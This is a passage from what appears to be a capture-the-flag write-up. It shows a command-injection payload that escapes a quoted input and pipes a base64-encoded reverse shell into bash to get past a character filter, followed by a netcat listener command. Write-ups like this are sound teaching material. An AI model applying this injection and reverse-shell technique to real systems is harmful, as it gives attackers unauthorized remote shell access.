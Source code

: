 ![burp invalid reverse shell](/images/yot-fox/burp-invalid-revshell.png)

Looks like this payload contains an invalid character.
We could try to find another payload with valid characters
but after some testing, I found that
the pipe character `|` is allowed!

Since we can
[chain commands by piping](https://linuxsimply.com/bash-scripting-tutorial/redirection-and-piping/piping/){:target="_blank"}{:rel="noopener noreferrer"}
we can encode our reverse shell in `base64` then have the
server decode and run our command. Our payload should
look like

```bash
\";echo 'BASE64_REVERSE_SHELL' | base64 --decode | bash \n
```

Setup a listener to catch the reverse shell request and
then send our payload

```bash
nc -lvnp 4444
```
